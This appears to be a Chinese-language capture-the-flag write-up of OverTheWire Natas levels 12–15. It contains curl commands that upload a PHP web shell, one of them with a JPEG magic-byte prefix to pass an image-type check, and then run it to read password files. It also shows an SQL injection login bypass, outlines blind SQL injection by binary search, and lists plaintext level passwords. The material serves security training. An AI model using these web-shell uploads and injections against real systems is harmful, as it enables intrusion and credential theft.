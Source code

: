 ### Level 12

```bash
curl -isu natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 -F filename=a.php -F 'uploadedfile=@-;filename=a.php' http://natas12.natas.labs.overthewire.org <<< '<?php passthru($_GET['cmd']); ?>'
```

上傳一個簡單的web shell，然後執行

```bash
curl -isu natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 'http://natas12.natas.labs.overthewire.org/upload/vvrbw84pu0.php?cmd=cat+/etc/natas_webpass/natas13'
```

讀取密碼。

### Level 13

和上一關的差別是多使用了`exif_imagetype`檢測上傳文件的類型：

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name']))
```

```bash
curl -su natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY -F filename=a.php -F 'uploadedfile=@-;filename=a.php' http://natas13.natas.labs.overthewire.org <<< $'\xff\xd8\xff<?php passthru($_GET['cmd']); ?>' | grep uploaded
curl -su natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 'http://natas13.natas.labs.overthewire.org/upload/8xr6u3ow6k.php?cmd=cat+/etc/natas_webpass/natas14'
```

### Level 14

代碼中有：

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

，存在SQL injection漏洞：

```bash
curl -su natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 -F 'username=" or 1#' http://natas14.natas.labs.overthewire.org
```

### Level 15

代碼中有：

```php
if(mysql_num_rows($res) > 0)
```

從服務端返回的HTML裏是否有`user exists`可以知道注入的SQL語句返回的記錄行數是否爲空。可以二分搜索密碼的每一位，
一般密碼字符的ASCII碼在33到126之間，可以用下界32表示密碼結束。

